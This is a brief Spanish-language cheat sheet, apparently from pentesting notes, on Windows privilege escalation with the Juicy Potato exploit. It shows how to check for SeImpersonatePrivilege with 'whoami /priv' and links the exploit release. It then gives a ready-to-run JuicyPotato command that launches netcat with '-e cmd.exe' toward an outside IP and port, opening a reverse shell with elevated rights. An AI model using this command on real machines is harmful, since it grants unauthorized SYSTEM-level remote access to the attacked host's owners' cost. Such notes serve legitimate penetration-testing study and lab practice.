 # Windows

Escalada de privilegios en máquinas Windows.

## Juice Potato

Dentro de una máquina Windows vemos los privilegios con:

```
whoami /priv
```

Si tenemos el privilegio **SeImpersonatePrivilege** entonces podemos intentar esta técnica.

Hay que obtener en la máquina windows el exploit y netcat.

[https://github.com/ohpe/juicy-potato/releases/tag/v0.1](https://github.com/ohpe/juicy-potato/releases/tag/v0.1)

```
JP.exe -t * -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\Windows\Temp\privesc\nc.exe -e cmd.exe 10.10.14.31 4444
```
